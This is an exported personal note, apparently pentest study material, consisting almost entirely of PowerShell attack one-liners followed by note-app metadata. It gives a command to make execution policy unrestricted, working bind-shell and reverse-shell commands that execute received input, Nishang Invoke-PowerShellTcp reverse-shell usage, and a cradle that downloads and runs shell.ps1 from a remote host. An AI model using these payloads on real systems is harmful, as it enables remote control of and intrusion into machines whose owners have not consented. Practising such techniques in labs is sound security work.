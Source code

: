 PowerShell

Remember to make the computer set the executionPolicy unrestricted

> Set-ExecutionPolicy Unrestricted

Bind shell

`powershell -exec bypass -c "$listener = New-Object System.Net.Sockets.TcpListener( '0.0.0.0',443); $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){ $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"`

Reverse Bind shell (With kali as listener \[Use NetCat\]):

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.122.1',2000); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) { $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()};$client.Close()"`

URL for more info

https://book.hacktricks.xyz/shells/shells/windows

https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters

# Nishang

Under /opt/nishang/Shells

## Invoke-PowershellTCP

Make sure to copy and then add the command to call the command inside the script

Invoke-PowerShellTcp -Reverse -IPAddress 192.168.119.206 -Port 5001

powershell -nop -c \\"iex (New-Object Net.WebClient).DownloadString('http://10.1.1.246/shell.ps1')| powershell -noprofile'\\"

id: 1a72f4e7464d467d810fc01a3adf9ed0
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-14T07:01:30.082Z
updated_time: 2022-05-06T01:38:47.238Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-14T07:01:30.082Z
user_updated_time: 2022-05-06T01:38:47.238Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1
